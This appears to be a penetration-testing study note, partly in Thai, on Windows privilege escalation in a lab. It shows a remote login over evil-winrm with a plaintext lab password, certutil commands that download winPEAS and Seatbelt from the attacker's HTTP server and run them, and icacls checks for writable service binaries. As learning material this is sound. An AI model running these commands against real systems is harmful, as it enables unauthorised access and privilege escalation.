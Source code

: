[[WinEventlogSearching]]
การตรวจสอบ Event ภายใต้ Windows สามารถใช้ Event Viewer ในการตรวจสอบที่ PATH: Application and service Logs > Microsoft > Windows > PowerShell > Operation   Script Block logging event in windows is 4104 

![[EventID4104.png]]

![[EVENTID4104-2.png]]


[[evil-winrm]]
```
# Command บน Kali สำหรับ Powershell ไปยัง Windows 
evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"
```


Level 2 Automate tools 

```bash
# ติดตั้ง WinPeas
sudo apt install peass 
updatedb 
locate winpeas
/usr/bin/winpeas
/usr/share/peass/winpeas
/usr/share/peass/winpeas/winPEAS.bat
/usr/share/peass/winpeas/winPEASany.exe
/usr/share/peass/winpeas/winPEASany_ofs.exe
/usr/share/peass/winpeas/winPEASx64.exe
/usr/share/peass/winpeas/winPEASx64_ofs.exe
/usr/share/peass/winpeas/winPEASx86.exe
/usr/share/peass/winpeas/winPEASx86_ofs.exe

python3 -m http.server 80
certutil.exe -urlcache -split -f http://192.168.45.241/winPEASx64.exe winPEASx64.exe
.\winPEASx64.exe


# Seatbelt Repo 
https://github.com/GhostPack/Seatbelt
# Download Binaries file@
https://github.com/r3motecontrol/Ghostpack-CompiledBinaries.git

python3 -m http.server 80 
certutil.exe -urlcache -split -f http://192.168.45.241/Seatbelt.exe Seatbelt.exe  
.\Searbelt.exe -group=all 

```


Level 3: Hack Windows Service 

```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

|Mask|Permissions|
|---|---|
|F|Full access|
|M|Modify access|
|RX|Read and execute access|
|R|Read-only access|
|W|Write-only access|

# ตรวจสอบสิทธิของ httpd.exe หรือ App ที่สนใจว่า user ที่เราใช้มีสิทธิอะไรบนไฟล์หรือ Service ดังกล่าว โดขให้มองหาสิทธิที่เป็น Full หรือ RX 
icacls "C:\xampp\apache\bin\httpd.exe"
```